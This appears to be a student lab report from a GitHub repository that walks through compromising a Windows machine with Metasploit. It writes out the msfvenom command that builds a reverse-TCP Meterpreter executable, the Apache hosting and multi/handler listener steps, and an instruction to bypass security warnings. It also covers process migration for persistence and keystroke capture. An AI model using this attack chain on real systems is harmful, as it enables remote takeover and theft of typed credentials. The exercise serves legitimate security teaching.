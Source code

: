 # NAME: SHIVARAM M.
# REG.NO.: 212223040195
# Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:
Find the attackers ip address  using ipconfig

## EXECUTION STEPS AND ITS OUTPUT:

## OUTPUT:

![image](https://github.com/Shivaram2525/Compromising-windows-using-Metasploit/assets/144226303/efbe8ddd-4689-4d76-8a0a-738813f87713)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

## OUTPUT:

![image](https://github.com/Shivaram2525/Compromising-windows-using-Metasploit/assets/144226303/7e25c6a9-0a12-464a-9bba-1377556db5f5)

copy the fun.exe into the apache /var/www/html folder

![image](https://github.com/Shivaram2525/Compromising-windows-using-Metasploit/assets/144226303/6eb48d14-37a5-458a-8993-02cc0c2bee5d)

Start apache server sudo systemctl apache2 start

![image](https://github.com/Shivaram2525/Compromising-windows-using-Metasploit/assets/144226303/af2f4291-daa8-4f6f-88d9-53587fb82e05)

Check the status of apache2

![image](https://github.com/Shivaram2525/Compromising-windows-using-Metasploit/assets/144226303/fa9a0329-af4e-42c1-85c7-a4daaa004245)

Invoke msfconsole:

## OUTPUT:

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

![image](https://github.com/Shivaram2525/Compromising-windows-using-Metasploit/assets/144226303/8beddc00-f3be-4098-839f-03e541c9d987)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.

![image](https://github.com/Shivaram2525/Compromising-windows-using-Metasploit/assets/144226303/d5d09a32-52fb-4ef0-bb24-2595742df279)

Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit

![image](https://github.com/Shivaram2525/Compromising-windows-using-Metasploit/assets/144226303/66ed076f-20d7-4310-8780-5124ba781c3f)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

![image](https://github.com/Shivaram2525/Compromising-windows-using-Metasploit/assets/144226303/1278b5ba-0acd-467f-a500-ec200e55d142)

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![image](https://github.com/Shivaram2525/Compromising-windows-using-Metasploit/assets/144226303/b74af423-9e83-4ca1-bd99-fcec6607648a)

keyscan_dump Shows the keystrokes captured so far

![image](https://github.com/Shivaram2525/Compromising-windows-using-Metasploit/assets/144226303/b15651b5-8d66-4e7d-95fe-8f12f6afc1d3)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
